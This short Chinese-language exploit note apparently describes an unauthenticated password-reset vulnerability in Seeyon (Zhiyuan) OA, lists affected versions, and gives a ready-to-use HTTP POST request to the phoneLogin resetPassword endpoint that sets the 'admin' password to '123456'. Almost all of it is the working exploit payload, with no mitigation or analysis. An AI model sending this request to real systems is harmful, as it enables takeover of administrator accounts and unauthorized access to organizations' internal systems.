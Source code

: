 # 致远OA前台任意用户密码修改漏洞

# 致远OA前台任意用户密码修改漏洞

## 版本
```
Seeyon OA=V5/G6
Seeyon OA=V8.1SP2
Seeyon OA=V8.2
```
## exp
```
POST /seeyon/rest/phoneLogin/phoneCode/resetPassword HTTP/1.1
Host: ip
User-Agent: Go-http-client/1.1
Content-Length: 24
Content-Type: application/json
Accept-Encoding: gzip

{"loginName":"admin","password":"123456"}
```


